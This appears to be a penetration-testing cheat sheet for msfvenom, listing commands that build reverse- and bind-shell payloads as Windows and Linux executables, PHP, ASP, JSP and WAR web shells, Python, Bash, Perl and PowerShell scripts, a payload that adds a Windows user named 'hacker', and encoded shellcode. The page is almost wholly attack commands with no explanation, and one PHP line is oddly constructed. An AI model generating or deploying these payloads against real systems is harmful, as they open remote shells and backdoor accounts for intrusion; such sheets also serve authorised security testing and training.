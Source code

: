 # Msfvenom

## Operating System Payloads

### Windows Payloads <a id="windows-payloads"></a>

```text
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe
msfvenom -p windows/meterpreter_reverse_http LHOST=IP LPORT=PORT HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe > shell.exe
msfvenom -p windows/meterpreter/bind_tcp RHOST= IP LPORT=PORT -f exe > shell.exe
msfvenom -p windows/shell/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe
```

### Linux Payloads <a id="linux-payloads"></a>

```text
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf
msfvenom -p linux/x64/shell_bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf
msfvenom -p linux/x64/shell_reverse_tcp RHOST=IP LPORT=PORT -f elf > shell.elf
```

Add a user in windows with msfvenom:

```text
msfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe
```

## Web Payloads

PHP

```text
msfvenom -p php/meterpreter_reverse_tcp LHOST= LPORT= -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '' > shell.php && pbpaste >> shell.php
```

ASP

```text
msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f asp > shell.asp
```

JSP

```text
msfvenom -p java/jsp_shell_reverse_tcp LHOST= LPORT= -f raw > shell.jsp
```

WAR

```text
msfvenom -p java/jsp_shell_reverse_tcp LHOST= LPORT= -f war > shell.war
```

## Scripting Payloads

Python

```text
msfvenom -p cmd/unix/reverse_python LHOST= LPORT= -f raw > shell.py
```

Bash

```text
msfvenom -p cmd/unix/reverse_bash LHOST= LPORT= -f raw > shell.sh
```

Perl

```text
msfvenom -p cmd/unix/reverse_perl LHOST= LPORT= -f raw > shell.pl
```

PowerShell

```text
msfvenom -p windows/x64/powershell_reverse_tcp -o psh.ps1 -a x64 --platform windows LHOST=192.168.88.251 LPORT=8080
```

## Memory Corruption Payloads

Creating a msfvenom payload with an encoder while removing bad characters:

```text
msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/shikata_ga_nai -b "\x0A\x0D"
```

